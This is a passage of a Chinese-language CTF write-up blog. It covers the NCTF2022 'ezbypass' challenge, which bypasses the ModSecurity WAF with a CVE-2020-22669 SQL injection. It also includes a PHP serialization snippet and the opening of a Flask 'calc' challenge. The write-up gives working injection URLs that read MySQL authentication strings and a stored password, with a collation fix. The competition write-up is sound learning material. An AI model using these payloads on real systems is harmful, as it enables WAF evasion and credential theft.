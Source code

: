 **GET**传**careful**

```php
<?php
class Easytest{
    protected $test = '1';
    public function funny_get(){
        return $this->test;
    }
}
echo urlencode(serialize(new Easytest()));
```

都能打进内网，但是buu内网环境没了，nss不知道哪个是PHP-FPM(打出了一个登录框，也不知道是什么)

后面的也做不了了，先放着吧

# NCTF2022

坐牢咯，就出了一个**ezbypass**

## ezbypass

给出hint : modsecurity

简单的搜索得知这是开源的、跨平台的Web应用防火墙

寻找其相关的sql漏洞，在CVE上找到[CVE-2020-22669](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-22669)

可以找到如下payload

```SQL
http://127.0.0.1/user.php?id=@.:=right(right((select authentication_string from mysql.user limit 0,1),1111),1111) union%23%0adistinctrow%0bselect@.
```

根据题目说明**Can you find my password?**

```SQL
http://162.14.110.241:8099/sql.php?id=@.:=right(right(((select password from info where id = 1 limit 0,1)),1111),1111) union%23%0adistinctrow%0bselect@.
```

报错 **Illegal mix of collations for operation 'UNION'**

这是由于不同的列具有不同的排序或编码规则

规定下排序规则即可

```SQL
http://162.14.110.241:8099/sql.php?id=@.:=right(right(((select password COLLATE utf8_general_ci as password from info where id = 1 limit 0,1)),1111),1111) union%23%0adistinctrow%0bselect@.
```

## calc

```python
#coding=utf-8
from flask import Flask,render_template,url_for,render_template_string,redirect,request,current_app,session,abort,send_from_directory
import random
from urllib import parse
import os
from werkzeug.utils import secure_filename
import time


app=Flask(__name__)

def waf(s):
```
